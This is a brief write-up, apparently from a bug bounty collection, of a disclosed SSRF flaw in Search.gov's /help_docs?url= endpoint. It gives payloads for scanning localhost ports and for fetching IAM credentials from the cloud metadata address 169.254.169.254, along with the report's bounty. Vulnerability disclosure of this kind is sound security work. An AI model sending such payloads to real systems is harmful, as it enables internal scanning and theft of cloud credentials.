 ## SSRF in Search.gov via ?url= parameter 
https://hackerone.com/reports/514224

* Vulnerable endpoint /help_docs?url=
* port scanning http://127.0.0.1:21/?%0A - took 450ms. (Port is closed) 
* Tried to retrive `http://169.254.169.254/latest/meta-data/iam/security-credentialx/?%0A`

/help_docs?url=http://169.254.169.254/latest/meta-data/iam/security-credentialx/? 


Report Status : Low 
Bounty Paid : $150 

Interesting part : If you access to https://search.usa.gov/help_docs in a browser, you will be redirected to https://www.usa.gov/page-not-found/. I have used a proxy tool (i.e. Burp, Fiddler, ZAP, etc.) to reproduce this issue

